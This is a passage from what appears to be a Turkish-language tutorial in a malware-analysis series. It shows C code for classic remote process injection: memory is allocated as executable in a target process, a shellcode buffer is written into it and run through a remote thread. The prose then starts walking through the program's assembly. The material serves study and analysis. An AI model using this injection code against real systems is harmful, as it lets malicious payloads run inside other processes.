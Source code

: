 ```c
    LPVOID remoteBuffer;
    remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(bekoShell), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL) {
        /* Eğer VirtualAllocEx işlemin geri dönüş adresi NULL dönerse programı hata mesajına yönlendiriyoruz. */
        printf("%s Failed to Allocate at %p Memory Address! Error Code: 0x%lx\n", e, remoteBuffer, GetLastError());
        return EXIT_FAILURE;
    }
    printf("%s Allocated %zu-bytes to %p Address!\n", i, sizeof(bekoShell), remoteBuffer);

    /* Bellek alanında yer ayırdığımız alana shellcode'u yerleştiriyoruz. */
    WriteProcessMemory(hProcess, remoteBuffer, bekoShell, sizeof(bekoShell), NULL);
    printf("%s Shellcode was written on the Target Process!\n", i);

    /* Yerleştirdiğimiz Shellcode'u çalıştırmak için uzaktan çalıştırılabilen bir RemoteThread oluşturuyoruz. */
    HANDLE hThread = NULL;
    hThread = CreateRemoteThreadEx(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, 0, NULL);
    if (hThread == NULL) {
        printf("%s Failed to Create Thread! Error Code: 0x%lx\n", e, GetLastError());
        return EXIT_FAILURE;
    }
    printf("%s Created Remote Thread!\n", i);
    printf("%s Waiting for the shellcode to be executed....\n", i);

    /* Oluşturulan Thread'in uzaktan komutu çalıştırılması için Programı beklemeye alıyoruz. */
    WaitForSingleObject(hThread, INFINITE);

    printf("%s Yeaap! Shellcode is executed! Good Bye :>\n", s);
    return EXIT_SUCCESS;
}
```

Basit kod parçası budur. Senaryomuza geçmeden önce kodların Assembly kısmına bakarak programın ne yaptığını bir anlamakla başlayacağız. “Neden C kodlarıyla değil de Assembly kodları ile anlatıyorsun?” diyenleriniz olacaktır. Bu seride amaçladığım şeyden biri de bu tür malware’ları nasıl analiz edebileceğinizdir. Dolayasıyla gerçek bir analizde elinizde source code olmayacağı için programı Assembly kodlarına bakmanız gerekecektir.

Eğer hayattan soğumaya hazırsanız hadi başlayalım:

<img src="https://miro.medium.com/v2/resize:fit:640/format:webp/1*AcF38FmKQvUP1EPoGLsNug.png">
<h4> main Location </h4>

Programın başlangıcına baktığımızda, “function prologue” adı verilen işlemlerin gerçekleştiğini görüyoruz. Bundan sonra da, kullanıcı programı başlatılırken kullandığı parametre sayısı rbp+arg_0 adresine aktarılıyor. rbp+arg_8 adresine ise kullanıcıdan aldığımız PID değeri aktarılıyor. Bu kısımda biraz kafanız karışmış olabilir biraz detaylandırayım.
